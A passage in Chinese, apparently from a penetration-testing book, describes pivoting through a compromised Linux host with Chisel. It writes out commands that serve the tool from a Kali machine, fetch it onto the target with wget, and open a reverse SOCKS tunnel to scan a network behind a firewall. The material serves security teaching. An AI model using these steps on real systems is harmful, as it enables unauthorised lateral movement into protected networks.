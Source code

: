 在这个示例中，我将使用 Chisel。

记下我的 Kali 系统的当前 IP 地址后，我将在同一目录下启动一个 HTTP 服务器，将 Chisel 传输到目标主机，方法是在该目录下运行**python3 -m http.server**命令。

在我作为 **user6** 拥有 shell 权限的目标系统上，我将使用 **wget** [`10.0.0.66:8000/chisel`](http://10.0.0.66:8000/chisel) 命令将 Chisel 文件下载到 **/tmp** 目录。在运行之前，您必须使用 **chmod +x chisel** 命令使其具备可执行权限。您还必须在 Kali 上运行相同的命令，因为您需要在连接的两端都运行 Chisel。

接下来，使用 **./chisel server -p 8001 –reverse** 命令在 Kali 上启动 Chisel。然后，在目标（跳板）系统上运行 **./chisel client 10.0.0.66:8001 R:1080:socks** 命令。确保根据需要替换为您自己的 IP 地址。

让我们看看实际操作。在以下截图中，Kali 的 IP 地址为 **10.0.0.66**。**10.0.0.149** 上的防火墙在端口 **80** 上暴露了一个 Web 服务器。该 Web 服务器位于防火墙的另一侧，IP 地址为 **10.1.1.103**。我将使用 Chisel 的 SOCKS 代理扫描位于 **10.1.1.0/24** 网络上的 Windows 主机，该网络位于防火墙的另一侧。

下图显示了在运行命令启动 Chisel 服务器之前，使用 Python 传输 Chisel 文件：

![图 12.12：Chisel 从 Kali 提供给跳板目标，并启动服务器端](img/B22229_12_12.jpg)

图 12.12：Chisel 从 Kali 提供给跳板目标，并启动服务器端

下图演示了在目标系统上执行的命令，用于传输 Chisel 并启动连接的客户端：

![图 12.13：Chisel 在跳板主机上以客户端模式启动，完成反向 SOCKS 连接](img/B22229_12_13.jpg)
